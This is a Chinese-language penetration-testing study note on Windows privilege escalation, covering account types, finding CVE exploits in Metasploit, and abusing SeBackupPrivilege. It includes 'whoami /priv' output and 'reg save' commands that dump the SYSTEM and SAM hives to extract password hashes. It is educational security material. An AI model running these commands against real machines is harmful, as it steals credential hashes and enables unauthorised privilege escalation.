 ## 1 Windows

老说提权提权的，Windows 到底有哪些[账户](https://learn.microsoft.com/en-us/windows/security/identity-protection/access-control/local-accounts)和权限？

Service Account 不能登录系统：

-   NetWork Service，网络服务账户
-   Local Service，本地服务账户
-   SYSTEM，最高权限用户

Local Account：

-   User，普通用户，默认创建的用户。
-   Administrator，管理员用户，安装完系统默认自带的

### 1.1 CVE Exploit

大多数没能力挖 Zero-day 漏洞，根据补丁和现有软件 CVE 情况优先从 MSF 中找 Exploit，没有去网上找公开的，一个不行多换几个。

需要注意的是，涉及系统内核提权不管 Linux 还是 Windows 运行 Exp 存在把机器搞挂的风险。

### 1.2 Windows Privilege

有哪些权限：[https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)  
对应利用思路：

-   [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)
-   [https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E4%B9%9D%E7%A7%8D%E6%9D%83%E9%99%90%E7%9A%84%E5%88%A9%E7%94%A8](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E4%B9%9D%E7%A7%8D%E6%9D%83%E9%99%90%E7%9A%84%E5%88%A9%E7%94%A8)

#### 1.2.1 SeBackupPrivilege

SeBackupPrivilege 是需要针对一些备份操作用户设置的权限，在域中是 Backup Operators 组成员，拥有此权限后可以读取系统上所有文件或目录内容。Windows 10 则不同，需要高完整度才有此权限，因此需要绕过 UAC。

```plaintext
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
......
```

因此可以导出注册表中哈希。

```plaintext
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
```
